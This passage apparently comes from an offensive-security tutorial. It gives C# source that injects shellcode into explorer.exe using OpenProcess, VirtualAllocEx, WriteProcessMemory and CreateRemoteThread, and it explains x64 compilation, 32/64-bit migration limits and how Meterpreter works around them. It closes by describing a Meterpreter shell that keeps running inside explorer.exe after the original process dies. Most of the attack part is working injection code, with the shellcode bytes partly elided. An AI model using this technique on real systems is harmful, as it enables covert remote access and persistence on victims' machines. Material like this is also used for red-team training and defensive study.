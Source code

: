     using System;
    using System.Runtime.InteropServices;
    
    
    namespace Inject
    {
        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
    
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    
            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    
            [DllImport("kernel32.dll")]
            static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
            static void Main(string[] args)
            {
                Process[] expProc = Process.GetProcessesByName("explorer");
                int pid = expProc[0].Id;
                IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
                IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
    
                byte[] buf = new byte[591] {
                0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
                ....
                0x0a,0x41,0x89,0xda,0xff,0xd5 };
                            IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
    
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }


Before compiling the project, we need to remember to set the CPU architecture to x64 since we are injecting into a 64-bit process.

Note that 64-bit versions of Windows can run both 32 and 64-bit processes. This means that we could face four potential migration paths: 64-bit -> 64-bit, 64-bit -> 32-bit, 32-bit -> 32-bit and 32-bit -> 64-bit.

The first three paths will work as expected. However, the fourth (32-bit -> 64-bit) will fail since CreateRemoteThread does not support this.

One workaround (which is what advanced implants like Meterpreter do) is to execute the call directly in assembly. The technique involves performing a translation from 32-bit to 64-bit long mode inside the 32-bit process. 

After getting shell, The process ID indicates that the Meterpreter shell is indeed running inside explorer.exe.

We will be able to launch our Meterpreter shellcode directly inside explorer.exe, which means that even if the original process is killed, the shell will live on.
